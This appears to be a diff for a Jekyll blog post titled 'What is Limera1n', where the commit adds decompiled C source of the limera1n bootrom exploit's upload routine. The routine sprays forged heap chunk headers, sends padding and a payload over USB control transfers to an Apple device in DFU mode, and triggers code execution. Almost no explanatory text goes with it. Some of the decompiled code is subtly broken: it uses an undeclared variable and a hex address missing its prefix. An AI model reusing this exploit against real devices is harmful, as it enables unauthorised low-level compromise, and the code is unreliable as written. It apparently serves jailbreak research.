

Before and after one commit to dayt0n/dayt0n.github.io, a Jekyll site: the page built from _posts/2015-01-03-what-is-limera1n.md, in a window 1280 px wide and 1400 px high, scrolled down 1234 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 1583 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Added limera1n source code

```diff
--- a/_posts/2015-01-03-what-is-limera1n.md
+++ b/_posts/2015-01-03-what-is-limera1n.md
@@ -9,3 +9,127 @@ image:
 ---
 
 Limera1n
+========
+Limera1n is
+
+
+Code Executed
+=============
+{% highlight c %}
+signed int __cdecl upload_exploit() {
+int device_type;
+signed int payload_address;
+int free_address;
+int deviceerror;
+char *chunk_headers_ptr;
+unsigned int sent_counter;
+//int v6;
+signed int result;
+//signed int v8;
+int recv_error_code;
+signed int payload_address2;
+signed int padding_size;
+char payload;
+char chunk_headers;
+//int v14;
+//v14 = *MK_FP(__GS__, 20);
+device_type = *(_DWORD *)(device + 16);
+
+if ( device_type == 8930 ) {
+padding_size = 0x2A800;
+payload_address = 0x8402B001;
+free_address = 0x8403BF9C;
+} else {
+payload_address = 0x84023001;
+padding_size = 0x22800;
+// free_address = (((device_type == 8920) – 1) & 0xFFFFFFF4) – 0x7BFCC05C;
+if(device_type == 8920) free_address = 0x84033FA4;
+else free_address = 84033F98;
+}
+
+memset(&payload, 0, 0x800);
+memcpy(&payload, exploit, 0x230);
+
+if (libpois0n_debug) {
+//v8 = payload_address;
+fprintf(stderr, 1, "Resetting device counters\n");
+//payload_address = v8;
+}
+
+payload_address2 = payload_address;
+deviceerror = irecv_reset_counters(client);
+
+if ( deviceerror ) {
+irecv_strerror(deviceerror);
+fprintf(stderr, 1, &aCannotFindS[12]);
+result = -1;
+} else {
+memset(&chunk_headers, 0xCC, 0x800);
+chunk_headers_ptr = &chunk_headers;
+
+do {
+*(_DWORD *)chunk_headers_ptr = 1029;
+*((_DWORD *)chunk_headers_ptr + 1) = 257;
+*((_DWORD *)chunk_headers_ptr + 2) = payload_address2;
+*((_DWORD *)chunk_headers_ptr + 3) = free_address;
+chunk_headers_ptr += 64;
+} while ((int *)chunk_headers_ptr != &v14);
+
+if (libpois0n_debug)
+fprintf(stderr, 1, "Sending chunk headers\n");
+
+sent_counter = 0;
+irecv_control_transfer(client, 0x21, 1, 0, 0, &chunk_headers, 0x800);
+memset(&chunk_headers, 0xCC, 0x800);
+
+do {
+sent_counter += 0x800;
+irecv_control_transfer(client, 0x21, 1, 0, 0, &chunk_headers, 0x800);
+} while (sent_counter < padding_size);
+
+if (libpois0n_debug)
+fprintf(stderr, 1, "Sending exploit payload\n");
+
+irecv_control_transfer(client, 0x21, 1, 0, 0, &payload, 0x800);
+
+if (libpois0n_debug)
+fprintf(stderr, 1, "Sending fake data\n");
+
+memset(&chunk_headers, 0xBB, 0x800);
+irecv_control_transfer(client, 0xA1, 1, 0, 0, &chunk_headers, 0x800);
+irecv_control_transfer(client, 0x21, 1, 0, 0, &chunk_headers, 0x800);
+
+if (libpois0n_debug)
+fprintf(stderr, 1, "Executing exploit\n");
+
+irecv_control_transfer(client, 0x21, 2, 0, 0, &chunk_headers, 0);
+irecv_reset(client);
+irecv_finish_transfer(client);
+
+if (libpois0n_debug) {
+fprintf(stderr, 1, "Exploit sent\n");
+if (libpois0n_debug)
+fprintf(stderr, 1, "Reconnecting to device\n");
+}
+
+client = (void *)irecv_reconnect(client, 2);
+
+if (client) {
+result = 0;
+} else {
+if (libpois0n_debug) {
+recv_error_code = irecv_strerror(0);
+fprintf(stderr, 1, &aCannotFindS[12], recv_error_code);
+}
+fprintf(stderr, 1, "Unable to reconnect\n");
+result = -1;
+}
+}
+
+// compiler stack check
+//if (*MK_FP(__GS__, 20) != v14)
+//    __stack_chk_fail(v6, *MK_FP(__GS__, 20) ^ v14);
+
+return result;
+}
+{% endhighlight %}
```
